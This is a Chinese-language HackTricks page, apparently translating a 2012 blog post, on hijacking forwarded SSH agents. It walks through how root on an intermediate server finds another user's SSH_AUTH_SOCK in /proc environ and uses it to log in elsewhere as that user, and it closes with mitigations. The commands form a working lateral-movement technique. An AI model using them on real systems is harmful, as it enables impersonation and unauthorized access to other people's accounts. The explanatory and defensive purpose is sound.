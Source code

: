 <details>

<summary><strong>从零开始学习AWS黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS Red Team Expert）</strong></a><strong>！</strong></summary>

其他支持HackTricks的方式：

* 如果您想在HackTricks中看到您的**公司广告**或**下载PDF格式的HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* 获取[**官方PEASS & HackTricks周边产品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFTs**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群**](https://discord.gg/hRep4RUj7f) 或 [**电报群**](https://t.me/peass) 或 **关注**我的**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>


# 摘要

如果您在`/etc/ssh_config`或`$HOME/.ssh/config`配置文件中发现以下内容，您可以做什么：
```
ForwardAgent yes
```
如果您是机器内的root用户，您可能可以访问在/tmp目录中找到的任何代理生成的ssh连接

使用Bob的ssh-agent之一冒充Bob:
```bash
SSH_AUTH_SOCK=/tmp/ssh-haqzR16816/agent.16816 ssh bob@boston
```
## 为什么会生效？

当你设置变量 `SSH_AUTH_SOCK` 时，你正在访问 Bob 的密钥，这些密钥已经在 Bob 的 ssh 连接中使用过。然后，如果他的私钥仍然存在（通常会存在），你将能够使用它来访问任何主机。

由于私钥以未加密的方式保存在代理的内存中，我认为如果你是 Bob，但不知道私钥的密码，你仍然可以访问代理并使用它。

另一个选项是，代理的用户所有者和 root 用户可能能够访问代理的内存并提取私钥。

# 长说明和利用

**将此帖子作为已删除帖子的存档：** [**https://www.clockwork.com/news/2012/09/28/602/ssh\_agent\_hijacking/**](https://www.clockwork.com/news/2012/09/28/602/ssh\_agent\_hijacking/)

## **当无法信任 ForwardAgent 时**

无密码的 SSH 使得在类 Unix 操作系统上的生活变得更加轻松。如果您的网络需要链接的 ssh 会话链（例如，访问受限网络），代理转发变得非常有帮助。通过代理转发，我可以从我的笔记本电脑连接到开发服务器，然后从那里运行另一个服务器的 svn checkout，所有这些都不需要密码，同时保持我的私钥安全存储在本地工作站上。

然而，这可能是危险的。快速的网络搜索将会显示几篇文章指出，只有中间主机是可信的时，这才是安全的。然而，很少会找到解释为什么这是危险的。

这就是本文的目的。但首先，一些背景知识。

## **无密码身份验证的工作原理**

在正常模式下进行身份验证时，SSH 使用您的密码来证明您是您所说的那个人。服务器将此密码的哈希与其存档中的哈希进行比较，验证哈希是否匹配，然后让您进入。

如果攻击者能够破解用于保护密码的加密，他们可以窃取密码并随时以您的身份登录。如果攻击者被允许执行数十万次尝试，他们最终可以猜出您的密码。

一种更安全的身份验证方法是[公钥身份验证](http://www.ibm.com/developerworks/library/l-keyc/index.html)，一种无需密码登录的方式。公钥身份验证需要一对匹配的公钥和私钥。公钥加密消息，只能使用私钥解密。远程计算机使用您的公钥的副本来加密发送给您的秘密消息。您通过使用私钥解密消息并将消息发送回远程计算机来证明您是您。您的私钥在整个过程中始终安全地存储在本地计算机上，免受攻击。

私钥很有价值，必须受到保护，因此默认情况下以加密格式存储。不幸的是，这意味着在使用之前必须输入加密密码。许多文章建议使用无密码（未加密）私钥以避免这种不便。这是一个坏主意，因为任何可以访问您工作站的人（通过物理访问、盗窃或黑客攻击）现在也可以自由访问任何配置了您公钥的计算机。

OpenSSH 包括[ssh-agent](http://www.openbsd.org/cgi-bin/man.cgi?query=ssh-agent)，一个在本地工作站上运行的守护程序。它将您的私钥的解密副本加载到内存中，因此您只需输入一次密码。然后，它提供一个本地[套接字](http://en.wikipedia.org/wiki/Unix\_domain\_socket)，ssh 客户端可以使用它来请求解密远程服务器发送回来的加密消息。您的私钥在 ssh-agent 进程的内存中安全地保留，同时允许您在不输入密码的情况下进行 ssh。

## **ForwardAgent 的工作原理**

许多任务需要“链接”ssh 会话。考虑我之前的示例：我从我的工作站 ssh 到开发服务器。在那里，我需要执行 svn 更新，使用“svn+ssh”协议。由于在共享服务器上留下一个未加密的超级秘密私钥副本是愚蠢的，现在我被困在密码身份验证中。但是，如果我在工作站的 ssh 配置中启用了“ForwardAgent”，ssh 将使用其内置的隧道功能在开发服务器上创建另一个套接字，该套接字被隧道返回到我本地工作站上的 ssh-agent 套接字。这意味着开发服务器上的 ssh 客户端现在可以直接向运行在我工作站上的 ssh-agent 发送“解密此秘密消息”的请求，向 svn 服务器进行身份验证，而无需访问我的私钥。

## **为什么这可能是危险的**

简而言之，任何具有中间服务器上的 root 权限的人都可以自由使用您的 ssh-agent 来对其他服务器进行身份验证。一个简单的演示展示了这可以多么轻松地实现。主机名和用户名已更改以保护无辜者。

我的笔记本电脑正在运行 ssh-agent，它通过套接字与 ssh 客户端程序通信。此套接字的路径存储在 SSH_AUTH_SOCK 环境变量中：
```
mylaptop:~ env|grep SSH_AUTH_SOCK
SSH_AUTH_SOCK=/tmp/launch-oQKpeY/Listeners

mylaptop:~ ls -l /tmp/launch-oQKpeY/Listeners
srwx------  1 alice  wheel  0 Apr  3 11:04 /tmp/launch-oQKpeY/Listeners
```
[ssh-add](http://www.openbsd.org/cgi-bin/man.cgi?query=ssh-add)程序允许我们查看和与代理中的密钥进行交互：
```
mylaptop:~ alice$ ssh-add -l
2048 2c:2a:d6:09:bb:55:b3:ca:0c:f1:30:f9:d9:a3:c6:9e /Users/alice/.ssh/id_rsa (RSA)
```
我在我的笔记本电脑的\~/.ssh/config文件中设置了“ForwardAgent yes”。因此，ssh将创建一个连接本地套接字与远程服务器上的本地套接字的隧道：
```
mylaptop:~ alice$ ssh seattle

seattle:~ $ env|grep SSH_AUTH_SOCK
SSH_AUTH_SOCK=/tmp/ssh-WsKcHa9990/agent.9990
```
即使我的密钥未安装在“seattle”上，ssh客户端程序仍然能够访问在我的本地机器上运行的代理：
```
seattle:~ alice $ ssh-add -l
2048 2c:2a:d6:09:bb:55:b3:ca:0c:f1:30:f9:d9:a3:c6:9e /Users/alice/.ssh/id_rsa (RSA)
```
那么...我们可以干扰谁呢？
```
seattle:~ alice $ who
alice   pts/0        2012-04-06 18:24 (office.example.com)
bob     pts/1        2012-04-03 01:29 (office.example.com)
alice   pts/3        2012-04-06 18:31 (office.example.com)
alice   pts/5        2012-04-06 18:31 (office.example.com)
alice   pts/6        2012-04-06 18:33 (office.example.com)
charlie pts/23       2012-04-06 13:10 (office.example.com)
charlie pts/27       2012-04-03 12:32 (office.example.com)
bob     pts/29       2012-04-02 10:58 (office.example.com)
```
我从来不喜欢鲍勃。要找到他的代理连接，我需要找到他一个ssh会话的子进程：
```
seattle:~ alice $ sudo -s
[sudo] password for alice:

seattle:~ root # pstree -p bob
sshd(16816)───bash(16817)

sshd(25296)───bash(25297)───vim(14308)
```
有几种方法可以让 root 查看运行进程的环境。在 Linux 上，数据可以在 /proc/<pid>/environ 中找到。由于数据是以 NULL 结尾的字符串存储的，我会使用 tr 命令将 NULL 转换为换行符：
```
seattle:~ root # tr '' 'n' < /proc/16817/environ | grep SSH_AUTH_SOCK
SSH_AUTH_SOCK=/tmp/ssh-haqzR16816/agent.16816
```
我现在已经掌握了劫持Bob的ssh-agent所需的一切信息：
```
seattle:~ root # SSH_AUTH_SOCK=/tmp/ssh-haqzR16816/agent.16816 ssh-add -l
2048 05:f1:12:f2:e6:ad:cb:0b:60:e3:92:fa:c3:62:19:17 /home/bob/.ssh/id_rsa (RSA)
```
如果我有特定目标，现在应该能直接连接。否则，只需观察进程列表或在Bob的历史文件中进行搜索，就会发现很多机会目标。在这种情况下，我知道Bob在名为“boston”的服务器上存储了各种超级机密文件：
```
seattle:~ root # SSH_AUTH_SOCK=/tmp/ssh-haqzR16816/agent.16816 ssh bob@boston
bob@boston:~$ whoami
bob
```
我已成功利用“seattle”上的root权限访问“boston”上的bob。我打赌我可以利用这一点让他被解雇。

## **保护自己！**

不要让你的ssh-agent无限期存储你的密钥。在OS X上，配置你的Keychain在不活动或屏幕锁定时锁定。在其他类Unix平台上，传递 -t 选项给ssh-agent，这样它的密钥将在 n 秒后被移除。

在连接到不受信任的主机时不要启用代理转发。幸运的是，\~/.ssh/config 语法使这变得相当简单：
```
Host trustworthyhost
ForwardAgent yes
```

```
Host *
ForwardAgent no
```
## **推荐阅读**

* [OpenSSH密钥管理](http://www.ibm.com/developerworks/library/l-keyc/index.html) – Daniel Robbins
* [Illustrated Guide to SSH Agent Forwarding](http://www.unixwiz.net/techtips/ssh-agent-forwarding.html) – Steve Friedl
* [ssh-agent手册](http://www.openbsd.org/cgi-bin/man.cgi?query=ssh-agent)
* [ssh-add手册](http://www.openbsd.org/cgi-bin/man.cgi?query=ssh-add)


<details>

<summary><strong>从零开始学习AWS黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

支持HackTricks的其他方式：

* 如果您想看到您的**公司在HackTricks中做广告**或**下载PDF格式的HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* 获取[**官方PEASS & HackTricks周边产品**](https://peass.creator-spring.com)
* 探索[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFTs**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群**](https://discord.gg/hRep4RUj7f) 或 [**电报群**](https://t.me/peass) 或 **关注**我的**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>
